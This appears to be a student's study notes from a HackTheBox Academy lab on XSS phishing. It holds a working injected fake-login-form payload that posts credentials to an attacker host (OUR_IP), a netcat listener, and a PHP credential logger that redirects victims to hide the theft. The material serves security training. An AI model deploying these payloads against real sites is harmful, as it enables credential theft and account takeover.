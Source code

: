 
***
###### `Title :- Phishing`
###### `Created on :- 2023-06-12 - 07:21`
###### `Created by:- Prem J`
***

- Phishing attacks usually utilize legitimate-looking information to trick the victims into sending their sensitive information to the attacker.
- A common form of XSS phishing attacks is through injecting fake login forms that send the login details to the attacker's server, which may then be used to log in on behalf of the victim and gain control over their account and sensitive information.

#### `XSS Discovery -->`

- We start by attempting to find the XSS vulnerability in the web application at `/phishing` from the server at the end of this section. When we visit the website, we see that it is a simple online image viewer, where we can input a URL of an image, and it'll display it:

![](https://academy.hackthebox.com/storage/modules/103/xss_phishing_image_viewer.jpg)

- This form of image viewers is common in online forums and similar web applications. As we have control over the URL, we can start by using the basic XSS payload we've been using. But when we try that payload, we see that nothing gets executed, and we get the `dead image url` icon:

![](https://academy.hackthebox.com/storage/modules/103/xss_phishing_alert.jpg)

- So, we must run the [[XSS Discovery]] process we previously learned to find a working XSS payload. `Before you continue, try to find an XSS payload that successfully executes JavaScript code on the page`.

#### `Login Form Injection -->`

- Once we identify a working XSS payload, we can proceed to the phishing attack.
- To perform an XSS phishing attack, we must ***inject an HTML*** code that displays a login form on the targeted page. This form should ***send the login information to a server we are listening on***, such that once a user attempts to log in, we'd get their credentials.

>[!Note]
>The default port used is 80, if that port is being is used we can change it in the payload and listen on that specific payload

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP:OUR_PORT><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

- A JavaScript function that injects HTML code of a simple login form into a vulnerable web server.
- In this case, we are exploiting a `Reflected XSS` vulnerability, so we can ***copy the URL and our XSS payload in its parameters***, as we've done in the `Reflected XSS` section, and the page should look as follows when we visit the malicious URL:

![](https://academy.hackthebox.com/storage/modules/103/xss_phishing_injected_login_form.jpg)

#### `Cleaning up -->`

- upon observation we can find the url field is still present, to remove it we can use the JavaScript function `document.getElementById().remove()`.

```javascript
document.getElementById('urlform').remove();
```

- upon adding this to the payload and injecting it we get the results like:

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

![](https://academy.hackthebox.com/storage/modules/103/xss_phishing_injected_login_form_2.jpg)

- We also see that there's still a piece of the original HTML code left after our injected login form. This can be removed by simply commenting it out, by adding an HTML opening comment after our XSS payload `<!--`

![](https://academy.hackthebox.com/storage/modules/103/xss_phishing_injected_login_form_3.jpg)

- At this stage we have perfected the payload. Now we can send it to the victim and trick him into using fake login form.

#### `Credential Stealing -->`

- If you tried to log into the injected login form, you would probably get the error `This site can’t be reached`. This is because, as mentioned earlier, our HTML form is designed to send the login request to our IP, which should be listening for a connection. If we are not listening for a connection, we will get a `site can’t be reached` error.
- we can use **netcat** for listening over a port

`sudo nc -lnvp 80` --> listens over the port 80

- Now when our victim logs into the injected HTML page we will receive his credentials

```shell-session
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.XX.XX] XXXXX
GET /?username=test&password=test&submit=Login HTTP/1.1
Host: 10.10.XX.XX
...SNIP...
```

- However, as we are only listening with a `netcat` listener, it will not handle the HTTP request correctly, and the victim would get an `Unable to connect` error, which may raise some suspicions

>[!Note]
>We can use PHP scripts that logs the credentials from the HTTP request and then returns the victim to original page. The victim thinks he logged into the page successfully. 

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

- Now that we have our `index.php` file ready, we can start a `PHP` listening server, which we can use instead of the basic `netcat` listener we used earlier

```shell-session
premjampuram@htb[/htb]$ mkdir /tmp/tmpserver
premjampuram@htb[/htb]$ cd /tmp/tmpserver
premjampuram@htb[/htb]$ vi index.php #at this step we wrote our index.php file
premjampuram@htb[/htb]$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```

